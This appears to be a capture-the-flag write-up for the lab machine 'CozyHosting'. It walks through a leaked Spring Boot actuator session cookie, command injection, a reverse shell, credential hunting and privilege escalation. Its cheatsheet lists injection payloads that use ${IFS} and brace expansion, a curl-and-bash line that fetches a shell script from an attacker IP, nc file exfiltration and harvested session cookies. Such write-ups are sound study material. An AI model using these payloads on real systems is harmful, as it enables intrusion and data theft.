 # CozyHosting \[Easy]

## Report

An HTTP website has an error message which indicates it was deployed under Spring Boot. Upon bruting more info on endpoints using a specific Spring Boot wordlist, we find one 'actuator'. This is basically an API used for debugging and the endpoint 'sessions' reveals the cookie for the user 'kanderson'. This user has access to the admin panel which has two fields 'username' and 'hostname' used to perform an SSH command that is vulnerable to command injection. Get a reverse shell and find a jar file running which contains creds to a PostgreSQL server. Fetch creds for user 'josh'.

Josh can perform ssh as sudo, get root

## Cheatsheet

```
hi;${IFS}id
0xdf;{id};

0xdf;{ping,-c,1,10.10.14.23};#

host=d&username=0xdf;curl${IFS}http://10.10.14.23/rev.sh${IFS}-o${IFS}/tmp/rev.sh
host=d&username=0xdf;bash${IFS}/tmp/rev.sh

0xdf;{bash,/tmp/rev.sh};#

grep -r password . 2>/dev/null
psql -U postgres -h localhost
\list
\dt
\d users [listing schema for table users]
select * from users;

the curly brace expansion didnt work to launch the shell but worked to ping
transfer file and unzip didnt work - had to do it on system : End-of-central-directory signature not found.

nc -nlvp 1234 > cloudhosting-0.0.1.jar
cat cloudhosting-0.0.1.jar | nc 10.10.14.23 1234
```

## Loot

### Creds

```
36A3B91D16974AEFD327507FEAEC57D6	"kanderson"
5A20AB1A2278205C635B18B2CECDED18	"kanderson"
```

### Proof
